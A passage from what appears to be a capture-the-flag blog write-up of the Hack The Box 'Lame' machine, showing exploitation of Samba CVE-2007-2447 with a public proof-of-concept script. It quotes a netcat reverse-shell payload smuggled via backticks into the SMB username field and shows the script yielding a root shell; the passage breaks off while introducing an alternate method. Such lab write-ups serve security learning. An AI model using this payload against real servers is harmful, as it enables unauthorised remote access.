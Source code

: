 This was potentially progress, as it was no longer evaluating the command on my box - but it wasn't giving me a shell either.

It seemed to be capitalising the command. I wasn't sure how to fix this, so I looked for a PoC script.

## PoC

Googling "CVE 2007 2447 poc" gave me [this exploit](https://github.com/amriunix/CVE-2007-2447). I cloned it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ git clone https://github.com/amriunix/CVE-2007-2447.git
```

This exploit builds the following payload:

```python
payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
username = "/=`nohup " + payload + "`"
```

I grabbed the `pysmb` library:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/CVE-2007-2447]
└─$ /usr/bin/python2 -m pip install pysmb
```

Then executed:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/CVE-2007-2447]
└─$ python2 usermap_script.py 10.10.10.3 445 10.10.14.13 9001
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

Sure enough:

![](/assets/images/blogs/Pasted image 20210503224059.png)

The shell pops us out as root, so we can grab both flags:

![](/assets/images/blogs/Pasted image 20210503224421.png)

There's no fancy 'you rooted Lame' screen for this one, as we had already cracked this box on the SESH account. Either way, that's the box!

## Alternate Method

After reading [0xdf's writeup](https://0xdf.gitlab.io/2020/04/07/htb-lame.html) I realised I could have used an alternate command to login to SMB after connecting, and supplied the payload there:

